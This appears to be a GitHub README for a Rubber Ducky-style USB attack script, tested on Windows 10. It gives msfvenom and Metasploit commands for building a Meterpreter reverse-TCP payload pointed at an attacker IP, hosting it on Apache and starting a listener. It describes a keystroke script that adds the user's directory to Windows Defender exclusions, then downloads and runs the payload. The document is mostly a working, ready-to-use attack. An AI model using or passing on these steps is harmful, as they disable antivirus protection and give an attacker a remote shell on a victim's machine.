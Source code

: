 Windows Defender ExclusionPath + ReverseShell
=============================================

This scrip will run PowerShell as administrator privilege and add directory of current User into Microsoft Windows Defender Exclusion. Then PowerShell will download payload file and run the payload. Last, exit the PowerShell.

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows//x64/meterpreter/reverse_tcp lhost=attacker_IP lport=port -f exe -o /var/www/html/windowsx64.exe
  
2. Run Apache Service on Kali Linux:
> $ service apache2 start
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)
